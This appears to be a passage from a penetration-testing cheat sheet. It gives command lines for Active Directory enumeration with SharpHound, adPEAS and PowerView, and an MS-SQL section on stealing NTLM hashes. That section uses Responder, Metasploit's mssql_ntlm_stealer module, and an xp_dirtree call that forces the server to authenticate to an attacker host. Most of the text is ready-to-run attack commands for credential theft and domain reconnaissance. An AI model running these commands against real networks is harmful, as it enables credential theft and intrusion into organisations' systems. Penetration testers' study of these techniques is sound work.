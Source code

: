 [**SharpHound**](https://github.com/BloodHoundAD/SharpHound)

Dump locally. Binary.

```bash
.\SharpHound.exe --memcache -c all -d <DOMAIN> -DomainController <IP>
```

[**adPEAS**](https://github.com/61106960/adPEAS)

Dump locally. Powershell script.

```bash
Import-Module .\adPEAS.ps1
Invoke-adPEAS -Domain '<DOMAIN>'
```

### PowerView / Sharpview

PowerView is a PowerShell tool to gain network situational awareness on Windows domains.

> **Github (archive):** https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1 **HTB Docs:** https://academy.hackthebox.com/course/preview/active-directory-powerview/powerviewsharpview-overview--usage

SharpView is a .NET port of PowerView

> **Github:** https://github.com/tevora-threat/SharpView **Cheatsheet:** https://csbygb.gitbook.io/pentips/windows/post-compromise-enum/powerview-sharpview

## Pentesting MS-SQL

### Steal NTLM hash

```bash
# use responder
└─$ sudo responder -I <IP> -w -d                            

# steal from msfconsole
use admin/mssql/mssql_ntlm_stealer
set SMBPROXY <IP>
exploit

# steal from ms-sql console
SQL> exec master.dbo.xp_dirtree '\\<IP>' 

```
